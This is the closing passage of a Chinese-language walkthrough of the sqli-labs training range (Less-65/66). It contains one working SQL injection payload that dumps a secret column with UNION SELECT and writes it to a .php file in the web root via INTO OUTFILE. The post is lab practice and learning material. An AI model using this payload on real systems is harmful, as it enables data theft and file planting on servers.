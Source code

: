 爆数据

```sql
?id=0") union select 1,2,(select group_concat(secret_RLGQ) from 7L3F6QOYU6) into outfile '/var/www/html/Less-65/2.php'%23
```

成功

![124](/medias/sqli-labs/124.png)

~~我测，鬼打墙了，这两关表名、字段、数据一样？~~


## Less-66

我的Less-66哪去了

![125](/medias/sqli-labs/125.png)


## 最后

好像做完了？喵了个咪的，这个靶场质量太高了，感谢大佬们的分析以及总结，燃尽了


参考、致谢：


- [mysql注入天书](https://github.com/lcamry/sqli-labs/blob/master/mysql-injection.pdf)
- [sqli-labs 靶场 1-65 通关记](https://tari.moe/2022/sqli-labs)
- [Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs/tree/master)

